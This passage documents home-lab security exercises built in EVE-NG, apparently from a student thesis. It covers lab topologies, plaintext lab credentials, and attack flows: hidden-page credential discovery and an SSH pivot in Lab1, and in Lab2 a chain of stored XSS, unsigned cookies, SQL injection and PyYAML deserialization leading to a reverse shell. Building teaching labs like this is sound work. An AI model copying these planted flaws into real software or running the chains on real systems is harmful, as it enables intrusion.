The flag reveals pfSense admin credentials, opening a secondary objective: access the firewall management interface from an internal pivot point.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Topology}

\begin{figure}[H]
\centering

\includegraphics[width=0.95\textwidth]{lab1-topology.png}
\caption{EVE-NG topology --- Lab 1}
\end{figure}

\begin{lstlisting}
Homelab LAN (192.168.0.0/24)
        |
[Parrot --- Attacker]  192.168.0.x (DHCP via pnet0 cloud)
        |
[pfSense --- Firewall]
  WAN vtnet1: 192.168.0.x/24  (DHCP)
  LAN vtnet0: 172.16.0.1/30
        |
[VyOS --- Router]
  eth0: 172.16.0.2/30    $\leftarrow$ uplink to pfSense
  eth6: 192.168.10.5/24  $\leftarrow$ Users LAN
  eth7: 192.168.20.1/24  $\leftarrow$ Servers LAN
        |
  +------+------+
[Server]      [PC1]
192.168.20.50 192.168.10.50
nginx :80      Ubuntu Desktop
PEBCAK Corp    internal user
\end{lstlisting}

\subsection{Nodes}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Node
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
OS
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
IP
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense & pfSense CE 2.6 & WAN: 192.168.0.x (DHCP) / LAN: 172.16.0.1 & Perimeter firewall · DNS · NAT · DNAT \\
VyOS & VyOS rolling & 172.16.0.2 / 192.168.10.5 / 192.168.20.1 & Core router · NAT \\
Server & Ubuntu Server 24.04 & 192.168.20.50 & Target --- nginx · hostname: pebcak \\
PC1 & Ubuntu Desktop 24.04 & 192.168.10.50 & Internal user workstation \\
Parrot & Parrot Security 6.4 & 192.168.0.x (DHCP) & Attacker \\
\end{longtable}}

\subsection{Network segments}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Segment & Subnet & Gateway & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Net-Link & 172.16.0.0/30 & 172.16.0.1 & pfSense $\leftrightarrow$ VyOS \\
Users LAN & 192.168.10.0/24 & 192.168.10.5 & PC1 segment \\
Servers LAN & 192.168.20.0/24 & 192.168.20.1 & Server segment \\
Homelab & 192.168.0.0/24 & 192.168.0.1 & WAN · Attacker \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Learning objectives}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Apply passive HTTP reconnaissance (page source, hidden paths)
\item
  Understand how DNS aliases expose internal naming conventions
\item
  Use SSH to access a target through a NAT/DNAT firewall rule
\item
  Pivot to a management interface using credentials found post-exploitation
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Attack flow}

\begin{lstlisting}
1. http://lab1                $\rightarrow$ PEBCAK Corp portal (Firefox on Parrot)
2. View page source           $\rightarrow$ 
3. http://lab1/pebcak.html   $\rightarrow$ SSH creds: blackmesa / !Bl4kM3s$
4. ssh blackmesa@lab1        $\rightarrow$ Server via pfSense DNAT (TCP 22)
5. cat ~/flag.txt             $\rightarrow$ FLAG + pfSense creds
6. ssh admin@172.16.0.1      $\rightarrow$ pfSense access (pivot from Server via VyOS)
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Lab startup checklist}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Start all nodes from EVE-NG web UI
\item
  Run bridge script on EVE-NG host (resets on reboot --- persistent via udev):

\begin{lstlisting}
ip addr add 192.168.20.x/24 dev vnet0_2
ip addr add 192.168.10.x/24 dev vnet0_3
ip route add 172.16.0.0/30 via 192.168.20.1
\end{lstlisting}
\item
  Set DNS on Parrot to \texttt{192.168.0.x} (pfSense) so \texttt{lab1} resolves
\item
  Verify: \path{curl http://lab1} from Parrot Firefox
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Files}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Description
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\href{https://github.com/TheEgea/TFG/raw/main/src/eve-ng/topologies/LAB1-Reconnaissance-PEBCAK.unl}{\nolinkurl{LAB1-Reconnaissance-PEBCAK.unl}} & EVE-NG topology --- import directly \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab1}{\path{nodes/Lab1/}} & Node configs: VyOS boot, pfSense XML, nginx, web pages \\
\end{longtable}}

\section{LAB1 -- VyOS Router}

VyOS provides internal routing between the pfSense firewall and the lab segments, plus source NAT for outbound internet access.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Interfaces}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Interface & IP & Description \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
eth0 & 172.16.x.x/30 & OUTSIDE --- uplink to pfSense LAN \\
eth6 & 192.168.10.x/24 & Users LAN --- gateway for PC1 \\
eth7 & 192.168.20.x/24 & Servers LAN --- gateway for Server \\
\end{longtable}}

\subsection{Access}

\subsection{Full running configuration}

\subsection{Connectivity verification}

\section{LAB1 -- Server (PEBCAK Corp)}

The Server node runs Ubuntu 24.04 and hosts the PEBCAK Corp nginx web server --- the primary target for Lab1.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Access}

\begin{lstlisting}
# From EVE-NG host (bridge vnet0_2 must have IP 192.168.20.x/24):
sshpass -p '!Bl4kM3s$' ssh blackmesa@192.168.20.x

# Via pfSense NAT (from Parrot / Homelab):
ssh blackmesa@192.168.0.x   # pfSense DNAT $\rightarrow$ 192.168.20.x:22
\end{lstlisting}

\subsection{Network configuration}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Interface & ens3 \\
IP & 192.168.20.x/24 \\
Gateway & 192.168.20.x (VyOS eth7) \\
DNS & 8.8.8.8 / 1.1.1.1 \\
Network manager & systemd-networkd \\
\end{longtable}}

File: \path{/etc/systemd/network/10-ens3.network}

\begin{lstlisting}
[Match]
Name=ens3

[Network]
Address=192.168.20.x/24
Gateway=192.168.20.x
DNS=8.8.8.8
DNS=1.1.1.1
\end{lstlisting}

\subsection{Services}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Service & Status & Port \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
nginx & enabled, active & 80 \\
openssh-server & enabled, active & 22 \\
systemd-networkd & enabled & --- \\
\end{longtable}}

\subsection{Web content}

\subsubsection{/var/www/html/index.html}

The main landing page for \path{http://lab1}. Contains a hidden HTML comment:

\begin{lstlisting}
\end{lstlisting}

This is the clue that leads students to \texttt{pebcak.html}.

\subsubsection{/var/www/html/pebcak.html}

Hidden page (not linked from index) containing SSH credentials in plain text:

\begin{lstlisting}
User:     blackmesa
Password: !Bl4kM3s$
\end{lstlisting}

\subsection{Flag}

\begin{lstlisting}
/home/blackmesa/flag.txt
$\rightarrow$ FLAG

-- PEBCAK Corp Internal Credentials --
Firewall: 172.16.x.x | admin / pfsense
\end{lstlisting}

\subsection{nginx configuration}

File: \path{/etc/nginx/sites-enabled/default}

\begin{lstlisting}
server 
}
\end{lstlisting}

\section{LAB1 -- pfSense Firewall}

pfSense sits at the perimeter between the Homelab LAN (WAN) and the internal VyOS router (LAN). It handles NAT port forwarding, DNS resolution for \texttt{lab1}, and SSH management access.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Interfaces}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Interface & Role & IP \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
vtnet0 & LAN & 172.16.x.x/30 \\
vtnet1 & WAN & 192.168.0.x/24 (static) \\
\end{longtable}}

\subsection{Access}

\begin{lstlisting}
# From EVE-NG host (route 172.16.0.0/30 via 192.168.20.1 must exist):
sshpass -p 'pfsense' ssh -o PubkeyAuthentication=no \
  -o PreferredAuthentications=password admin@172.16.x.x

# Web UI:
# http://172.16.x.x  (admin / pfsense)
\end{lstlisting}

\begin{lstlisting}
pfSense LAB1 is installed in BIOS mode (SeaBIOS / machine=pc).
EVE-NG default launcher works correctly --- no custom script needed.
\end{lstlisting}

\subsection{NAT port forward rules}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Rule & Protocol & WAN port & Target \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
LAB1-HTTP & TCP & 80 & 192.168.20.x:80 \\
LAB1-HTTPS & TCP & 443 & 192.168.20.x:443 \\
LAB1-SSH & TCP & 22 & 192.168.20.x:22 \\
\end{longtable}}

All three rules forward WAN traffic on pfSense (192.168.0.x) directly to the Server.

\subsection{DNS Resolver (Unbound)}

Resolves \texttt{lab1} $\rightarrow$ \texttt{192.168.0.x} for clients using pfSense as DNS:

\begin{lstlisting}
local-zone: "lab1." redirect
local-data: "lab1. A 192.168.0.x"
\end{lstlisting}

\begin{itemize}
\item
  Listens on: \texttt{0.0.0.0:53} (all interfaces)
\item
  WAN firewall rule: \texttt{pass\ in\ quick\ on\ vtnet1\ proto\ udp\ from\ any\ to\ any\ port\ 53}

\begin{lstlisting}
nmcli con mod "Wired connection 1" ipv4.dns "192.168.0.x" ipv4.ignore-auto-dns yes
nmcli con up "Wired connection 1"
\end{lstlisting}

  After this, \path{curl http://lab1} resolves to pfSense and NAT forwards to the Server.
\end{itemize}

\subsection{Snapshot}

A named snapshot \texttt{lab1-session2} exists on the pfSense disk:

\begin{lstlisting}
/opt/unetlab/tmp/0/64c869bb-bdae-4f79-9c38-f126b700b8ca/6/virtioa.qcow2
\end{lstlisting}

Restore: \texttt{qemu-img\ snapshot\ -a\ lab1-session2\ \textless{}disk\textgreater{}} (with pfSense stopped)

\section{LAB1 -- PC1 (Ubuntu Desktop)}

PC1 is an internal user workstation on the Users LAN segment. It is not part of the primary attack chain but represents an internal user that could be targeted in extended exercises.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Access}

\begin{itemize}
\tightlist
\item
  VNC: port 32772 on EVE-NG host
\item
  Credentials: skynet / Sk1n3t
\end{itemize}

\subsection{Network configuration}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
IP & 192.168.10.x/24 \\
Gateway & 192.168.10.x (VyOS eth6) \\
DNS & 8.8.8.8 \\
Manager & NetworkManager \\
\end{longtable}}

\begin{lstlisting}
nmcli con mod "Wired connection 1" \
  ipv4.method manual \
  ipv4.addresses 192.168.10.x/24 \
  ipv4.gateway 192.168.10.x \
  ipv4.dns 8.8.8.8 \
  ipv4.ignore-auto-dns yes
nmcli con up "Wired connection 1"
\end{lstlisting}

\begin{lstlisting}
SSH server not installed. Access only via VNC.
\end{lstlisting}

\section{LAB1 -- Parrot OS (Attacker)}

The Parrot node is the attacker's machine. It sits directly on the Homelab LAN and attacks the Server through pfSense's NAT rules.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Access}

\begin{itemize}
\tightlist
\item
  VNC: port 32773 on EVE-NG host
\item
  Credentials: lab1 / L4b1
\end{itemize}

\subsection{Network}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
IP & 192.168.0.x (DHCP from home router) \\
DNS & 192.168.0.x (pfSense --- set manually) \\
\end{longtable}}

\subsection{DNS setup (required before starting)}

\begin{lstlisting}
nmcli con mod "Wired connection 1" \
  ipv4.dns "192.168.0.x" \
  ipv4.ignore-auto-dns yes
nmcli con up "Wired connection 1"
nslookup lab1   # should resolve to 192.168.0.x
\end{lstlisting}

\subsection{Tools used in Lab1}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Tool & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Firefox & Browse \path{http://lab1}, view page source \\
ssh client & \texttt{ssh\ blackmesa@lab1} after finding creds \\
\end{longtable}}

\subsection{Attack flow}

\begin{lstlisting}
# 1. Browse and find the hidden page
firefox http://lab1        # $\rightarrow$ view source $\rightarrow$ 
firefox http://lab1/pebcak.html  # $\rightarrow$ blackmesa / !Bl4kM3s$

# 2. SSH via pfSense DNAT (TCP 22 $\rightarrow$ 192.168.20.x)
ssh blackmesa@lab1

# 3. Get the flag
cat ~/flag.txt
\end{lstlisting}



\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab1-enunciado.pdf}

\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab1-resolucion.pdf}
\cleardoublepage
\chapter{LAB2 --- Web Vulnerabilities: SYNAPSE Portal}

\section{LAB2 --- Web Vulnerabilities · SYNAPSE}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.72\linewidth}@{}}
\toprule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\textbf{Difficulty} & Medium \\
\textbf{Category} & Web App Security · OWASP Top 10 \\
\textbf{Flags} & 3 \\
\textbf{Est.\ time} & 90--150 min \\
\textbf{Key skills} & XSS, cookie hijack, broken auth, SQL injection, YAML deserialization, RCE \\
\textbf{Nodes} & pfSense · VyOS · Server-A (SYNAPSE Portal) · Server-B (DataVault) · Parrot OS \\
\end{longtable}}

\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab2}{Lab folder on GitHub} \href{https://github.com/TheEgea/TFG/raw/main/src/eve-ng/topologies/LAB2-WebVulnerabilities-SYNAPSE.unl}{Download topology (.unl)} \href{../../assets/exercises/lab2-exercise.pdf}{Exercise sheet} \href{../../assets/exercises/lab2-solution.pdf}{Solution guide}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Scenario}

\textbf{SYNAPSE Intelligence Corp} runs two internal web applications on a segmented network. The student is an external attacker who must chain five OWASP Top 10 vulnerabilities across both servers to achieve remote code execution and data exfiltration.

The attack starts with stored XSS to steal an admin session cookie, pivots through broken authentication and SQL injection to reach Server-B credentials, and culminates in YAML deserialization for a full reverse shell.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Topology}

\begin{figure}[H]
\centering

\includegraphics[width=0.95\textwidth]{lab2-topology.png}
\caption{EVE-NG topology --- Lab 2}
\end{figure}

\begin{lstlisting}
Homelab LAN (192.168.0.0/24)
        |
[pfSense-LAB2]  WAN: 192.168.0.x (DHCP)
        |        LAN: 172.16.1.1/30
[VyOS-LAB2]
  eth0: 172.16.1.2/30   $\leftarrow$ uplink to pfSense
  eth1: 192.168.30.1/24 $\leftarrow$ Net-DMZ (servers)
  eth2: 10.0.40.1/24    $\leftarrow$ Net-Attackers (Parrot)
        |
  +-----+--------+            |
[Server-A]    [Server-B]    [Parrot]
192.168.30.10 192.168.30.20 10.0.40.10
SYNAPSE Portal  DataVault    Attacker
XSS+Auth+SQLi   YAML RCE
\end{lstlisting}

\subsection{Nodes}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Node
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
OS
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
IP
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB2 & pfSense CE & WAN: 192.168.0.x / LAN: 172.16.x.x & Perimeter firewall · UEFI boot \\
VyOS-LAB2 & VyOS rolling & 172.16.1.2 / 192.168.30.1 / 10.0.40.1 & Router · NAT · DNS \\
Server-A & Ubuntu Server 24.04 & 192.168.30.10 & SYNAPSE Portal --- Flask + nginx + victim bot \\
Server-B & Ubuntu Server 24.04 & 192.168.30.20 & DataVault --- Flask + PyYAML deserialization \\
Parrot & Parrot Security 6.4 & 10.0.40.10 (static) & Attacker \\
\end{longtable}}

\subsection{Network segments}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Segment & Subnet & Gateway & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Net-Link & 172.16.1.0/30 & 172.16.1.1 & pfSense $\leftrightarrow$ VyOS \\
Net-DMZ & 192.168.30.0/24 & 192.168.30.1 & Server-A + Server-B \\
Net-Attackers & 10.0.40.0/24 & 10.0.40.1 & Parrot attacker \\
Homelab & 192.168.0.0/24 & 192.168.0.1 & WAN \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Learning objectives}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Exploit stored XSS to steal a session cookie from a bot victim
\item
  Forge authentication tokens with broken auth (unsigned cookie manipulation)
\item
  Extract credentials via UNION-based SQL injection
\item
  Chain application vulnerabilities across multiple services
\item
  Achieve RCE through YAML insecure deserialization (\texttt{yaml.UnsafeLoader})
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Vulnerability chain}

\begin{lstlisting}
Stored XSS $\rightarrow$ Cookie Hijack $\rightarrow$ Broken Auth $\rightarrow$ SQLi $\rightarrow$ SSH Pivot $\rightarrow$ YAML RCE $\rightarrow$ RCE
\end{lstlisting}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.03\linewidth}
  >{\raggedright\arraybackslash}p{0.18\linewidth}
  >{\raggedright\arraybackslash}p{0.10\linewidth}
  >{\raggedright\arraybackslash}p{0.41\linewidth}
  >{\raggedright\arraybackslash}p{0.11\linewidth}@{}}
\toprule\noalign{}
\# & \begin{minipage}[b]{\linewidth}\raggedright
Vulnerability
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
OWASP
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Location
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Flag
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
1 & Stored XSS & A03 & \path{/comments} --- Jinja2 \texttt{\textbackslash{}\textbar{}\ safe} filter & --- \\
2 & Cookie theft & A07 & \texttt{HttpOnly=False} session cookie & --- \\
3 & Broken authentication & A07 & Unsigned \texttt{ID:ROLE:USERNAME} cookie & --- \\
4 & UNION SQL Injection & A03 & \path{/search?q=} --- raw string concat & \textbf{FLAG 1} \\
5 & SSH lateral movement & A01 & Server-B:22 --- SSH pivot with \path{monitor/M0nit0r2024} (SQLi dump) $\rightarrow$ \path{/home/monitor/flag.txt} & \textbf{FLAG 2} \\
6 & YAML deserialization & A08 & Server-B \path{/preview} --- \texttt{yaml.UnsafeLoader} & --- \\
7 & RCE via reverse shell & A08 & YAML \path{!!python/object/apply:os.system} & \textbf{FLAG 3} \\
\end{longtable}}

\subsection{Credentials}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.18\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.14\linewidth}@{}}

\toprule\noalign{}
User & Password & System & Role \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
ubuntu & S3rv3rA & Server-A OS & SSH \\
admin & Admin@Synapse2024 & Server-A Portal & admin \\
guest & guest123 & Server-A Portal & guest \\
ubuntu & S3rv3rB & Server-B OS & SSH \\
operator & D4t4V4ult\#2024 & Server-B DataVault & operator \\
lab2 & L4b2 & Parrot OS & SSH \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Lab startup checklist}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Run bridge script on EVE-NG host (after reboot):

\begin{lstlisting}
bash /usr/local/bin/lab2-bridges-up.sh
\end{lstlisting}
\item
  Start SYNAPSE Portal on Server-A:

\begin{lstlisting}
sshpass -p S3rv3rA ssh ubuntu@192.168.30.10
cd /opt/synapse && docker-compose up -d
\end{lstlisting}
\item
  Start DataVault on Server-B:

\begin{lstlisting}
sshpass -p S3rv3rB ssh ubuntu@192.168.30.20
cd /opt/datavault && sudo docker compose up -d
\end{lstlisting}
\item
  Configure Parrot static IP (\path{10.0.40.10/24}, GW \path{10.0.40.1})

  \begin{itemize}
  \tightlist
  \item
    pfSense-LAB2 uses \textbf{UEFI boot} --- use \path{/usr/local/bin/pfsense-lab2-start.sh}
  \item
    Server-A uses \texttt{docker-compose} v1 (hyphen). Server-B uses \texttt{docker\ compose} v2 (space).
  \item
    Bridge IPs reset on EVE-NG host reboot --- always run the bridge script first.
  \end{itemize}
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Files}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Description
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\href{https://github.com/TheEgea/TFG/raw/main/src/eve-ng/topologies/LAB2-WebVulnerabilities-SYNAPSE.unl}{\nolinkurl{LAB2-WebVulnerabilities-SYNAPSE.unl}} & EVE-NG topology --- import directly \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab2/server-a}{\path{nodes/Lab2/server-a/}} & Flask app, nginx config, victim bot, docker-compose \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab2/server-b}{\path{nodes/Lab2/server-b/}} & DataVault Flask app, docker-compose \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab2/vyos}{\path{nodes/Lab2/vyos/}} & VyOS config.boot \\
\end{longtable}}

\section{LAB2 -- Infrastructure Reference}

Complete infrastructure reference for LAB2 SYNAPSE Intelligence Corp.~For instructor/lab admin use.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Node inventory}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}@{}}
\toprule\noalign{}
Node & EVE-NG ID & VNC Port & Image & Status \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Parrot-Attacker & 1 & 32769 & linux-parrot-security-6.4 & Running \\
VyOS-LAB2 & 2 & Telnet 32770 & vyos-2026.02.13-rolling & Running \\
Server-A-SYNAPSE & 3 & 32771 & linux-ubuntu-server-24.04 & Running \\
Server-B-SYNAPSE & 4 & 32772 & linux-ubuntu-server-24.04 & Running \\
pfSense-LAB2 & 5 & 32773 & pfsense-ce & Running \\
\end{longtable}}

\subsection{Network addressing}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Network & Subnet & Bridge & Host IP \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Net-Attackers & 10.0.40.0/24 & vnet0\_1 & 10.0.40.254 \\
Net-DMZ & 192.168.30.0/24 & vnet0\_2 & 192.168.30.254 \\
Net-Link (pfSense$\leftrightarrow$VyOS) & 172.16.1.0/30 & vnet0\_3 & --- \\
\end{longtable}}

\subsection{Credentials (full reference)}

{\footnotesize\begin{longtable}[]{@{}
